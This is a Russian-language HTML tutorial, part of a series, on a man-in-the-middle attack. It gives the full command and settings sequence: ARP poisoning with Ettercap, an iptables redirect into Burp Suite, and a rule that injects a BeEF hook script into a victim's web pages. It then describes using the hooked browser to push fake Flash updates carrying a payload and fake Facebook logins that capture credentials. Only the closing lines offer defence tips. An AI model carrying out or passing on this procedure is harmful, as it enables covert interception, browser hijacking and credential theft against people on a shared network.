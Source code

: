 <h1>(Ettercap, Burp Suite, BeEF). MITM. Часть 2. Использование Burp Suite в атаках MITM. Подцепление на BeEF.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b><br>

<b><i>Содержание</i></b><br>
<a href="#introduction">1. Введение. Требования.</a><br>
<a href="#introtoxss">2. Понятие XSS.</a><br>
<a href="#prepare">3. Подготовка среды.</a><br>
<a href="#ettercap">4. Запускаем Ettercap.</a><br>
<a href="#burpsuite">5. Запускаем Burp Suite.</a><br>
<a href="#beef">5. Запускаем BeEF.</a><br>
<a href="#configureburpsuite">6. Продолжаем конфигурировать Burp Suite.</a><br>
<a href="#example">7. Работа с BeEF.</a><br>
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a><br>

<p><a name="introduction"></a></p>
<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем использование утилиты Burp Suite для атаки MITM. Вообще, данная утилита предназначена для тестирования веб-приложений (к которым мы вернемся позже), но ее можно использовать также много еще для чего. Как уже ранее было сказано, будет использовать в атаке MITM.<br><br>
<i>Если вы не читали первую статью про MITM, обязательно прочитайте ее перед этой. Там рассмотрены понятия атаки MITM и использование утилит Bettercap и net-creds.</i><br><br>


Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.


<p><a name="introtoxss"></a></p>
<h2>Понятие XSS.</h2>
XSS (Cross Site Scripting, получил аббревиатуру XSS, а не CSS, для избежания путаницы с CSS в HTML) - атака, которая заключается в том, чтобы запустить вредносный JavaScript на стороне пользователя. <br>
Уязвимости XSS делятся на три типа:
<ul>
  <li>
    <b>Stored XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: на доске объявлений в поле имя ввел &lt;script&gt;alert('Stored XSS')&lt;/script&gt; и теперь каждый раз, когда кто-то заходит на страницу его профиля, он видит на экране сообщение 'Stored XSS'
  </li>
  
  <li>
    <b>Reflected XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/store/product.php?id=&lt;script&gt;alert('ReflectedXSS')&lt;/script&gt;
  </li>
  
  <li>
    <b>DOM-Based XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/arictle/25/text.html#&lt;script&gt;alert('DOM-BasedXSS')&lt;/script&gt;
  </li>
</ul><br>
Приведенная выше информация на данный момент нам не особо будет нужна, т.к. безопасность веб-приложений у нас еще не скоро. Для общего развития, можно сказать.


<p><a name="prepare"></a></p>
<h2>Подготовка среды.</h2>
Чтобы было удобнее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>

Установите BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">apt update && apt install beef-xss</pre>

<p><a name="ettercap"></a></p>
<h2>Запускаем Ettercap.</h2>
Включите форвард пакетов:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">echo "1" > /proc/sys/net/ipv4/ip_forward</pre>

Запустите Ettercap:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ettercap -G</pre>

<ul>
  <li>Когда откроется окно Ettercap, выберите интерфейс, который хотите использовать и нажмите ОК.</li>
  <li>Нажмите на кнопку Show hosts (у нее иконка сервера)</li>
  <li>Нажмите на лупу для того, чтобы начать поиск хостов (если нужного не появилось, попробуйте еще раз, иногда приходится трижды нажимать)</li>
  <li>Выберите IP-адрес роутера как цель 1</li>
  <li>Выберите IP-адрес атакуемого как цель 2</li>
  <li>Нажмите на меню MITM</li>
  <li>Выберите ARP Poisoning, убедитесь, что стоит галочка Sniff remote connections и нажмите ОК</li>
</ul>

(в другом терминале) 
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>
Чтобы перенаправлять данные с порта 80 на 8080:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080</pre>


<p><a name="burpsuite"></a></p>
<h2>Запускаем Burp Suite.</h2>

Запустите Burp Suite.
<ul>
  <li>
    Во вкладке Proxy перейдите в подраздел Options
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;В разделе Proxy Listeners нажмите кнопку Add
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Bind to port укажите порт 8080
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Во вкладке Request Handling поставьте галочку “Support invisible proxying”
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Нажмите ОК
  </li>
  <li>
    Во вкладке Proxy перейдите в подраздел Intercept
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;Нажмите на Intercept is ON для того, чтобы выключить перехват и перевести кнопку в положение Intercept is OFF
  </li>
</ul>


<p><a name="beef"></a></p>
<h2>Запускаем BeEF.</h2>
Запускаем BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo beef-xss</pre>
При первом запуске потребует задать логин и пароль. Пароль должен отличаться от beef. Этот логин/пароль потребуется для входа в веб-интерфейс BeEF.


<p><a name="configureburpsuite"></a></p>
<h2>Продолжаем конфигурировать Burp Suite.</h2>
<ul>
  <li>Во вкладке Proxy перейдите в подраздел Options</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;Крутите вниз, пока не найдете Match and Replace</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;В этом разделе нажмите кнопку Add</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ставим тип Response body</li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Match: вписывайте
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;\/head&gt;</pre>
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Replace вписывайте:
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;script src=”192.168.0/1.x:3000/hook.js”&gt;&lt;/script&gt;&lt;/head&gt;</pre>
    где 192.168.0/1.x - ваш IP-адрес
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Поставьте галочку “Regex Match”
  </li>
</ul>

Ждите, пока атакуемый откроет страницу http://. Если вам нужно внедрять этот скрипт и на страницы https://, то единственный вариант - использовать Ettercap с модулем SSLStrip (который работает криво). Вариант использовать Bettercap вместо Ettercap - не вариант, т.к. Bettercap занимает порт 8080, хотя вы можете попробовать указать в Burp Suite другой порт и в iptables - также другой, не тестировал.


<p><a name="example"></a></p>
<h2>Работа с BeEF.</h2>
BeEF позволяет практически управлять браузером, когда открыта вкладка со скриптом. Можно показать фейковое уведомление об обновлении Flash Player, куда указать исполняемый файл с полезной нагрузкой, показать окно авторизации в Facebook (истекла сессия, введите логин/пароль), после чего он попадет вам в консоль и т.д.<br><br>

Подробнее читайте по ссылке Hackware: Базовое использование BeEF в полезных ссылках.


<p><a name="end"></a></p>
<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://cisoclub.ru/rukovodstvo-po-osushhestvleniyu-cross-site-scripting-xss/" target="_blank">Hackware: руководство по осуществлению XSS атаки</a></li>
  <li><a href="https://ru.wikipedia.org/wiki/Межсайтовый_скриптинг" target="_blank">Википедия: межсайтовый скриптинг</a></li>
  <li><a href="https://hackware.ru/?p=784&PageSpeed=noscript" target="_blank">Hackware: Базовое использование BeEF</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не использовать открытые сети Wi-Fi</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение NoScript (<a href="https://chrome.google.com/webstore/detail/noscript/doojmbjmlfjjnbmnoijecmcbfeoakpjm" target="_blank">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/noscript/" target="_blank">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с подцеплением на BeEF при помощи Burp Suite.<br><br>
<a href="../index">Назад к списку статей...</a>

